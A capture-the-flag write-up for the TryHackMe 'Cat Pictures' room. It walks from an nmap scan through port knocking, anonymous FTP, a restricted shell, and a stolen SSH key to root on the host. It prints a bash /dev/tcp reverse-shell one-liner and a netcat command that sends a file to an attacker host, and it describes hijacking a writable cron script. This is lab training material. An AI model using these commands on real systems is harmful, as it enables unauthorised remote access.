


# [Cat Pictures](https://tryhackme.com/room/catpictures)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Fri Feb 18 15:57:16 2022 as: nmap -vvv -p 22,4420,8080 -sCV -oA init 10.10.243.100
Nmap scan report for 10.10.243.100
Host is up, received conn-refused (0.29s latency).
Scanned at 2022-02-18 15:57:26 +07 for 110s

PORT     STATE SERVICE      REASON  VERSION
22/tcp   open  ssh          syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
4420/tcp open  nvm-express? syn-ack
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck:
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open  http         syn-ack Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Cat Pictures - Index page
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF:x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20a
SF:t\x20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x
SF:20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20passw
SF:ord:\nInvalid\x20password\.\.\.\nConnection\x20Closed\n")%r(GetRequest,
SF:C6,"INTERNAL\x20SHELL\x20SERVICE\nplease\x20note:\x20cd\x20commands\x20
SF:do\x20not\x20work\x20at\x20the\x20moment,\x20the\x20developers\x20are\x
SF:20fixing\x20it\x20at\x20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPl
SF:ease\x20enter\x20password:\nInvalid\x20password\.\.\.\nConnection\x20Cl
SF:osed\n")%r(HTTPOptions,C6,"INTERNAL\x20SHELL\x20SERVICE\nplease\x20note
SF::\x20cd\x20commands\x20do\x20not\x20work\x20at\x20the\x20moment,\x20the
SF:\x20developers\x20are\x20fixing\x20it\x20at\x20the\x20moment\.\ndo\x20n
SF:ot\x20use\x20ctrl-c\nPlease\x20enter\x20password:\nInvalid\x20password\
SF:.\.\.\nConnection\x20Closed\n")%r(RTSPRequest,C6,"INTERNAL\x20SHELL\x20
SF:SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20at\x
SF:20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x20t
SF:he\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20password
SF::\nInvalid\x20password\.\.\.\nConnection\x20Closed\n")%r(RPCCheck,A0,"I
SF:NTERNAL\x20SHELL\x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x2
SF:0not\x20work\x20at\x20the\x20moment,\x20the\x20developers\x20are\x20fix
SF:ing\x20it\x20at\x20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\
SF:x20enter\x20password:\n")%r(DNSVersionBindReqTCP,C6,"INTERNAL\x20SHELL\
SF:x20SERVICE\nplease\x20note:\x20cd\x20commands\x20do\x20not\x20work\x20a
SF:t\x20the\x20moment,\x20the\x20developers\x20are\x20fixing\x20it\x20at\x
SF:20the\x20moment\.\ndo\x20not\x20use\x20ctrl-c\nPlease\x20enter\x20passw
SF:ord:\nInvalid\x20password\.\.\.\nConnection\x20Closed\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 18 15:59:16 2022 -- 1 IP address (1 host up) scanned in 120.26 seconds
```

Looking at the website on port 8080, we have a single post.




Looking at the post, it seems to be telling us to do port knocking. I used [knock.py](https://github.com/grongor/knock) to knock as suggested and re-ran `nmap`. As a result, FTP should be open on port 21.

With FTP open, we can log in anonymously and grab the only file "note.txt".

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
226 Directory send OK.

ftp> get note.txt
```

The note contains credentials for port 4420 which we can access using `nc`. After using the password, we should get a very restrictive shell. I tried to get a better shell with `bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1'` but the resulting shell seems about just as restrictive.

Checking `/home`, there's catlover's home we can access. In there is a single binary: `runme`.

```sh
I have no name!@cat-pictures:/home/catlover# ls -la
ls -la
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

Running the binary, we're prompted for a password, for which I tried the previously found password in `note.txt` which didn't work.

```sh
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: <REDACTED>
Access Denied
```

I wanted to analyze the binary so I ran `nc -lnvp 1337 > runme` on my local machine and `cat runme | nc LHOST 1337` on the victim machine.

Checking for strings ...

```sh
$ rabin2 -z runme
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002009 0x00002009 7   8    .rodata ascii <REDACTED PASSWORD>
1   0x00002011 0x00002011 28  29   .rodata ascii Please enter yout password:
2   0x00002030 0x00002030 44  45   .rodata ascii Welcome, catlover! SSH key transfer queued!
3   0x0000205d 0x0000205d 25  26   .rodata ascii touch /tmp/gibmethesshkey
4   0x00002077 0x00002077 13  14   .rodata ascii Access Denied
```

... we see what looks like a potential password (redacted) and signs that something is done with an SSH key. Giving `runme` the password puts catlover's `id_rsa` in `/home/catlover` which we can grab and use to SSH in as catlover. However, upon landing, we seem to be the root user. Checking `/`, we have `.dockerenv` so we know we're in a docker container.

With some manual enumeration, I found `/opt/clean/clean.sh` which looks like something run periodically as a cron job.

```sh
root@7546fa2336d6:/opt/clean# cat clean.sh
#!/bin/bash

rm -rf /tmp/*
```

The file is writable so I appended a reverse shell to it and set up a listener. After a bit of waiting, I got a shell as root on the host machine.
